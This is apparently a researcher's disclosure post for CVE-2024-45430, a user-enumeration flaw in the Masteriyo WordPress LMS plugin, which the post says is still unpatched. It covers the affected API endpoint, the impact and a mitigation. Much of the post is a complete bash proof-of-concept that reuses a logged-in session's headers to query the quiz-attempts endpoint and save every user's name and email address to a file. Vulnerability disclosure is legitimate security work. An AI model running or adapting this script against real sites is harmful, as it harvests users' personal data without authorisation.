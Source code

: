 ```yaml
---
title: User Enumeration Vulnerability in Masteriyo (CVE-2024-45430)
author: meyer
date: 2024-08-30 03:55:00 -0500
categories: [Cybersecurity]
tags: [cve, masteriyo, wordpress, plugin]
pin: true
---
```


## Overview

The Masteriyo PRO - LMS for WordPress plugins contain a vulnerability that allows arbitrary user enumeration without administrative privileges. As of the publication date, this issue remains unresolved, affecting all available versions (<=2.13.3).

## Technical Details

The Quiz Attempts functionality enables user enumeration, as both the administrative panel and the regular user dashboard use the same API endpoint that does not validate whether the user is an administrator or not. This means that any user can view the attempts of all other users. The affected route is /wp-json/masteriyo/v1/quizes/attempts/?page=1&per_page=10, where manipulating the arguments and formatting the output allows enumerating all users who have taken quizzes.

![quiz-attempts](/assets/img/dashboard-quiz-attempts.png)
_Normal behavior_

![quiz-attempts-fail](/assets/img/dashboard-quiz-attempts-fail.png)
_Using the filter_

![quiz-attemps-object](/assets/img/quiz-attempts-object.png)
_Another user object_

## Impact

By exploiting this vulnerability, an attacker with a regular user account can access sensitive user information, such as display names, first names, last names, and email addresses, without the need for an admin account.

## Mitigation

Disabling the quiz attempts page for users is the unique solution for now.

![mitigation](/assets/img/mitigation.png)
_WordPress Admin Panel_

## Exploit

You can create users and experiment in a secure environment using the official [Pro Demo](https://masteriyo.demoswp.net/). Be sure to complete some quizzes during your testing.

```bash
#!/bin/bash

# CVE: CVE-2024-45430
# PoC Script
# Author: Meyer Pidiache <meyer-pidiache>
# Description: This script is a proof of concept for CVE-2024-45430.
# Prerequisites:
# - Headers file for HTTP requests (default 'headers.txt').
# Usage:
#   ./script.sh -u <URL of the API endpoint> -h <headers file> -o <users output file>
# Example:
#   ./script.sh -u http://localhost:8080/wp-json/masteriyo/v1/quizes/attempts -h headers.txt -o users.json
# Notes:
#   To obtain the headers from any request with an active session:
#   Browser -> Developer Tools -> Network -> Request -> Right-click -> Copy value -> Copy request headers.

# Colors and formatting for CLI output
GREEN='\033[0;32m'
YELLOW='\033[1;33m'
RED='\033[0;31m'
BLUE='\033[0;34m'
BOLD='\033[1m'
NC='\033[0m' # No color

# Function to display usage
show_usage() {
  echo -e "${YELLOW}Usage: $0 -u <URL of the API endpoint> -h <headers file> -o <users output file>${NC}"
  exit 1
}

# Process arguments
while getopts ":u:h:o:" opt; do
  case $opt in
    u) BASE_URL="$OPTARG" ;;
    h) HEADERS_FILE="$OPTARG" ;;
    o) USER_FILE="$OPTARG" ;;
    \?) echo -e "${RED}[!] Invalid option -$OPTARG${NC}" >&2; show_usage ;;
    :) echo -e "${RED}[!] Option -$OPTARG requires an argument${NC}" >&2; show_usage ;;
  esac
done

# Check that the base URL was provided
if [ -z "$BASE_URL" ]; then
  echo -e "${RED}[!] You must provide the Base URL as an argument.${NC}"
  show_usage
fi

# Use default values if no files were provided
HEADERS_FILE="${HEADERS_FILE:-headers.txt}"
USER_FILE="${USER_FILE:-users.json}"

# Read headers from file and exclude lines that start with "GET", "POST", etc.
HEADERS=()
while IFS= read -r line; do
  if [[ "$line" != *HTTP* ]]; then
    HEADERS+=('-H' "$line")
  fi
done < "$HEADERS_FILE"

# Verify if the headers are valid by making a test request
echo -e "${BLUE}[*] Verifying headers...${NC}"
test_response=$(curl -s -o /dev/null -w "%{http_code}" --compressed "${BASE_URL}?page=1&per_page=1" "${HEADERS[@]}")

if [ "$test_response" -ne 200 ]; then
  echo -e "${RED}[!] The headers are invalid or the URL is not accessible.${NC}"
  echo -e "${YELLOW}[!] Please check the headers file or the provided URL.${NC}"
  exit 1
fi

# Check if the users file exists, if not create it as an empty array
if [ ! -f "$USER_FILE" ]; then
  echo "[]" > "$USER_FILE"
  echo -e "${YELLOW}[!] File $USER_FILE created as an empty array.${NC}"
fi

echo -e "${BLUE}[*] Retrieving the total number of attempts...${NC}"
response=$(curl -s --compressed "${BASE_URL}?page=1&per_page=1" "${HEADERS[@]}")

if [ -z "$response" ]; then
  echo -e "${RED}[!] The response from the first request is empty.${NC}"
  echo -e "${YELLOW}[!] Request: curl --compressed \"${BASE_URL}?page=1&per_page=1\" \"${HEADERS[@]}\"${NC}"
  echo -e "${BLUE}[!] Response: ${BOLD}$response${NC}"
  exit 1
fi

total_attempts=$(echo "$response" | jq -r '.meta.total')

if [ -z "$total_attempts" ] || [ "$total_attempts" -le 0 ]; then
  echo -e "${RED}[!] Failed to retrieve the total number of attempts.${NC}"
  echo -e "${BLUE}[!] Response: ${BOLD}$response${NC}"
  total_attempts=10
fi

echo -e "${GREEN}[*] Total attempts to investigate: $total_attempts${NC}"

echo -e "${BLUE}[*] Investigating attempts...${NC}"
response=$(curl -s --compressed "${BASE_URL}?page=1&per_page=${total_attempts}&_locale=user" "${HEADERS[@]}")

if [ -z "$response" ]; then
  echo -e "${RED}[!] The response from the second request is empty.${NC}"
  echo -e "${YELLOW}[!] Request: curl --compressed \"${BASE_URL}?page=1&per_page=${total_attempts}&_locale=user\" \"${HEADERS[@]}\"${NC}"
  exit 1
fi

existing_ids=$(jq -r '.[].id' "$USER_FILE")

if [ ${#existing_ids[@]} -gt 0 ]; then
  echo -e "${BLUE}[*] Saving user information...${NC}"

  # Use an associative array to store existing IDs
  declare -A id_map
  for id in $existing_ids; do
    id_map["$id"]=1
  done

  echo "$response" | jq -c '.data[] | .user' | while IFS= read -r user; do
    id=$(echo "$user" | jq -r '.id')

    if [[ -z "${id_map[$id]}" ]]; then
      # Add user to the file
      jq --argjson user "$user" '. += [$user]' "$USER_FILE" > "${USER_FILE}.tmp" && mv "${USER_FILE}.tmp" "$USER_FILE"
      id_map["$id"]=1

      useremail=$(echo "$user" | jq -r '.email')
      echo -e "${GREEN}[*] User saved: ${BOLD}$useremail${NC} (ID: $id)"
    fi
  done

else
  echo -e "${YELLOW}[*] No users found.${NC}"
fi

echo -e "${BLUE}[*] Operation completed.${NC}"
```

![exploit](/assets/img/exploit.png)
